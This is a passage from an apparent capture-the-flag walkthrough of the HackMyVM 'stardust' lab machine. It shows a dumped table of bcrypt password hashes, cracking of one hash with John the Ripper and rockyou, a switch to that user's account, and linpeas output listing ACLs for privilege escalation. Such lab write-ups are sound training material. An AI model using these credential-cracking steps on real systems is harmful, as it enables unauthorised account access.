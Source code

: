     |  9 | ande      | $2b$12$03pXHnhLpgaGfeY72FtwJ.1T5IgCxHF.1PrPUVFySI4fIV3Gnykvq |
    | 10 | colleen   | $2b$12$ZwPxWr9.g5VoiFQfWUJtgeTuNcpzpD44BrOVRafrnXHIa3Pc9mK1C |
    | 11 | gussi     | $2b$12$f/05LxKgsAt6KNJ676sG/.90OvOMyUxuP2OdtZ9d8AnSmhP8ZIIA2 |
    | 12 | brandi    | $2b$12$wQKGmPPRclBk4KpT3e44q.EOIh.xki.70W62xDuPnybXKYeXOSd2u |
    | 13 | karrie    | $2b$12$bZVRUGzKjDGqOGKzWgcWUehPiwBseDScXfmsTZJb.r58Uc5uxFFUC |
    | 14 | maala     | $2b$12$D0kAwa0fGU055rUnPJHMLuuB0fHcGjKbjLw9oNi/IMFkbzP980fvS |
    | 15 | brittany  | $2b$12$hgjI3XifZTqfMCSM4TOqTObHNLNvkT0FhwiAJ7zr/GGLM58b4ieVC |
    +----+-----------+--------------------------------------------------------------+
    15 rows in set (0.001 sec)
    ```
- get a user shell (tally)
    ```
    ┌──(kali㉿kali)-[~/hackmyvm/stardust]
    └─$ john tally_hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 4096 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ******           (?)     
    1g 0:00:00:20 DONE (2023-07-11 07:48) 0.04904g/s 14.12p/s 14.12c/s 14.12C/s 0123456789..
    ******
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    ```
    www-data@stardust:/var/www/html/config$ su - tally
    Password: 
    tally@stardust:~$ ls -la
    total 32
    drwxr-xr-x 4 tally tally 4096 May  8 10:59 .
    drwxr-xr-x 3 root  root  4096 May  6 10:48 ..
    lrwxrwxrwx 1 root  root     9 May  6 10:48 .bash_history -> /dev/null
    -rw-r--r-- 1 tally tally  220 May  6 10:46 .bash_logout
    -rw-r--r-- 1 tally tally 3526 May  6 10:46 .bashrc
    drwxr-xr-x 3 tally tally 4096 May  7 09:47 .local
    -rw-r--r-- 1 tally tally  807 May  6 10:46 .profile
    drwx------ 2 tally tally 4096 May  8 10:09 .ssh
    -rwx------ 1 tally tally   33 May  7 09:40 user.txt
    tally@stardust:~$ cat user.txt 
    ********************************
    ```

### get a root shell
I found files with ACLs.
- run [linpeas.sh](https://github.com/carlospolop/PEASS-ng)
    ```
    ╔══════════╣ Files with ACLs (limited to 50)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls                                                                                        
    # file: /opt                                                                                                                                                   
    USER   root      rwx     
    user   www-data  ---     
    GROUP  root      r-x     
    mask             r-x     
    other            r-x     
